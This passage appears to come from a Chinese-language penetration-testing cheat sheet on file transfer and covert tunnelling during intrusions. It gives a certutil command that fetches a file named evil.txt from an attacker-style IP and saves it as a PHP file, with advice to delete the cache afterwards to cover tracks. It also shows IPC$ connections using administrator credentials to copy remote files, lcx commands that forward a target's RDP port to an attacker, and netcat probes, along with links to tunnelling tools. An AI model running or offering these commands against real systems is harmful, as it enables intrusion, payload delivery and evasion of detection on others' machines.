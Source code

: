 **certutil**

用于备份证书服务，支持 xp-win10 都支持。由于 certutil 下载文件都会留下缓存，所以一般都建议下载完文件后对缓存进行删除。

缓存目录为: `%USERPROFILE%\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content`
```
# 下载
certutil -urlcache -split -f http://192.168.28.128/imag/evil.txt test.php

# 删除缓存
certutil -urlcache -split -f http://192.168.28.128/imag/evil.txt delete
```

**ipc$**
```
# 建立远程 IPC 连接
net use \\192.168.28.128\ipc$ /user:administrator "abc123!"

# 复制远程文件到本地主机
copy \\192.168.28.128\c$\2.txt D:\test
```

---

# 隐匿攻击

**相关文章**
- [强制通过VPN上网,VPN断线就断网](https://www.t00ls.net/articles-38739.html)

## 隐蔽隧道

### 端口转发

**文章**
- [渗透基础——端口转发与代理](https://www.4hou.com/posts/PQMA)

**工具**
- [cw1997/NATBypass](https://github.com/cw1997/NATBypass) - 一款 lcx 在 golang 下的实现
- [knownsec/rtcp](https://github.com/knownsec/rtcp) - 利用 Python 的 Socket 端口转发，用于远程维护
- [k8gege/PortTran](https://github.com/k8gege/PortTran) - .NET 端口转发工具,支持任意权限
- [sensepost/reGeorg](https://github.com/sensepost/reGeorg) - 通过走 web 流量进行端口转发
- [EarthWorm](http://rootkiter.com/EarthWorm/)
    - [idlefire/ew: 内网穿透(跨平台)](https://github.com/idlefire/ew)
    - [「SOCKS5代理」ew 正向、反向、多级级联](https://ai-sewell.me/2018/SOCKS5%E4%BB%A3%E7%90%86-ew-%E6%AD%A3%E5%90%91-%E5%8F%8D%E5%90%91-%E5%A4%9A%E7%BA%A7%E7%BA%A7%E8%81%94/)
    - [利用 ew 轻松穿透目标多级内网](https://klionsec.github.io/2017/08/05/ew-tunnel/)

- **lcx**
    ```bash
    lcx -slave 111.222.333.444 4567 127.0.0.1 3389  # On the targets
    lcx -listen 4567 33891                          # Attacker
    ```

- **netcat**
    - **tcp 端口连接**
        ```bash
        smtp: nc -nv 192.168.30.35 25 help
        pop3: nc -nv 192.168.30.35 110 user xxx pass xxx
        imap: nc -nv 192.168.30.35 143
        ```
